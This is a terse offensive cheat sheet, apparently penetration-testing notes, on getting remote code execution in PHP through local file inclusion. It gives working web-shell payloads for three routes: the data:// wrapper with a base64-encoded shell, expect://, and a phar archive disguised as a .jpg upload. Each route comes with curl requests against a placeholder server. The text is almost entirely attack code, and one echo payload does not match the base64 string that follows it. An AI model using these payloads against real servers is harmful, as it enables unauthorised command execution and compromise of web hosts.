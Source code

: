 
##### Via LFI and PHP wrappers
Encode PHP script in base64:
```bash
echo '<?php system($_REQUEST("cmd")) ?>' | base64
```

```shell
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
i
#### Data wrapper expect
Check config for
```
extension=expect
```

```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

##### Via phar upload
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

?>
```

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

